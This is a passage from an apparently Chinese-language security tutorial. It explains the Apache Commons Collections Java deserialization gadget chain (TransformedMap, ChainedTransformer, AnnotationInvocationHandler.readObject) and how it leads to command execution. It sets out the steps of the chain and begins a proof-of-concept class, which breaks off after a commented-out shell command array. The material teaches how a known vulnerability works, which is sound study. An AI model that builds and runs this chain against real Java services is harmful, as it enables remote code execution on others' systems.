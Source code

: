 目前的构造还需要依赖于Map中某一项去调用setValue()，那么怎样才能在调用`readObject()`方法时**直接触发执行**呢？

我们知道，如果一个类的方法被重写，那么在调用这个函数时，会优先调用经过修改的方法。因此，如果**某个可序列化的类重写了`readObject()`方法**，并且**在`readObject()`中对Map类型的变量进行了键值修改操作**，**且这个Map变量是可控的**，我们就可以实现攻击目标。

`AnnotationInvocationHandler`类有一个成员变量`memberValues`是Map类型 ，并且`AnnotationInvocationHandler`的`readObject()`函数中对`memberValues`的每一项调用了`setValue()`函数对value值进行一些变换。
![](https://cdn.jsdelivr.net/gh/jitwxs/cdn/blog/posts/201803/2018032618570364.png)

这个类完全符合我们的要求，那么，我们的思路就非常清晰了：

 1. 首先构造一个Map和一个能够执行代码的`ChainedTransformer`
 2. 生成一个`TransformedMap`实例
 3. 实例化`AnnotationInvocationHandler`，并**对其进行序列化**
 4. 当触发`readObject()`反序列化的时候，就能实现命令执行

>TransformedMap--->AnnotationInvocationHandler.readObject()--->setValue()--->漏洞成功触发

### 3.4 代码实例

回顾下知识点：

（1）方法重写

如果一个类的方法被重写，那么调用该方法时**优先**调用该方法。

（2）反射机制

在运行状态中：

- 对于任意一个类，都能够判断一个对象所属的类；

- 对于任意一个类，都能够知道这个类的所有属性和方法；

- 对于任意一个对象，都能够调用它的任意一个方法和属性；

（3）关键类与函数

- **TransformedMap** ： 利用其value修改时触发transform()的特性

- **ChainedTransformer**： 会挨个执行我们定义的Transformer

- **Transformer**:  存放我们要执行的命令

-  **AnnotationInvocationHandler**： 对memberValues的每一项调用了setValue()函数

具体实现：

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.util.Map.Entry;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class POC_Test{
    public static void main(String[] args) throws Exception {
        //execArgs: 待执行的命令数组
        //String[] execArgs = new String[] { "sh", "-c", "whoami &gt; /tmp/fuck" };
```